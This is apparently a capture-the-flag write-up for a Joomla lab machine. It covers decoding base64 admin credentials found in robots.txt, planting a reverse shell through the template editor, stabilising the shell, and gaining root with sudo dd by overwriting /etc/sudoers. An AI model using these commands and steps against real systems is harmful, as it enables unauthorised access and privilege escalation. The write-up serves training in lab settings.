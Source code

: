 ```yaml
---
sticker: lucide//candy
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |
We can get this in the scan:

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![[Pasted image 20250306160644.png]]

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![[Pasted image 20250306160959.png]]

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![[Pasted image 20250306161139.png]]

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![[Pasted image 20250306161614.png]]

We got administrator templates, let's check it out:



![[Pasted image 20250306161640.png]]

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![[Pasted image 20250306161839.png]]

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![[Pasted image 20250306162017.png]]

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![[Pasted image 20250306162512.png]]

We found a user with a console: `luisillo`, we can also find this:

![[Pasted image 20250306162629.png]]

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on ce239478bbd9:
    (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![[Pasted image 20250306162918.png]]

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![[Pasted image 20250306163315.png]]

Just like that we got root access.

